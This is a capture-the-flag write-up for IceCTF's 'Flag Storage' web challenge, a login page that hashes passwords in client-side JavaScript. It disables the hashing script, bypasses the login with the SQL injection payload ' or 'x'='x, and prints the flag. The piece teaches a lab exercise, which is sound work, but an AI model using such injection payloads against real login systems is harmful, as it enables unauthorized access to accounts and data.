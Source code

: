 ```yaml
---
layout: writeup
title: 'Stage 2 Web: Flag Storage'
level:
difficulty:
points:
categories: []
tags: []
flag: IceCTF{why_would_you_even_do_anything_client_side}
---
```

## Challenge

What a cheat, I was promised a flag and I can't even log in. Can you get
in for me? flagstorage.vuln.icec.tf. They seem to hash their passwords,
but I think the problem is somehow related to [this][1].

## Solution

We have to bypass the login system using SQL injections, page looks as
follows:

    <!doctype html>
    <html>
    <head>
        <meta charset="utf-8" />
        <title>Log In</title>
        <link rel="stylesheet" href="//cdnjs.cloudflare.com/ajax/libs/skeleton/2.0.4/skeleton.min.css" />
    </head>
    <body>
        <div class="container">
     <form method="post" action="login.php" id="form">
    <label for="username">Username: </label>
    <input class="u-full-width" type="text" name="username" placeholder="Username" />
    <label for="password">Password: </label>
    <input id="password_plain" class="u-full-width" type="password" name="password_plain" placeholder="Password" />
    <input id="password" type="hidden" name="password"/>
    <input type="submit" value="Log In">
    </form>
    </div>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.1.0/jquery.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/jsSHA/2.2.0/sha.js"></script>
    <script>
    $(function(){
        var updatePassword = function(e){
            // hash client side for better security, never leak the pw over the wire
            var sha = new jsSHA("SHA-256", "TEXT");
            sha.update($(this).val());
            $("#password").val(sha.getHash("HEX"));
        };
        $("#password_plain").on("change", updatePassword);
        $("#form").on("submit", updatePassword);
    });
    </script>
    </body>
    </html>
{: .language-html}

The password is hashed client side, so we just disable that script, and
enter `' or 'x'='x` for both username and password to log in and get our
flag:

    Logged in!
    Your flag is: IceCTF{why_would_you_even_do_anything_client_side}

## Flag

    IceCTF{why_would_you_even_do_anything_client_side}



[1]: https://en.wikipedia.org/wiki/SQL_injection
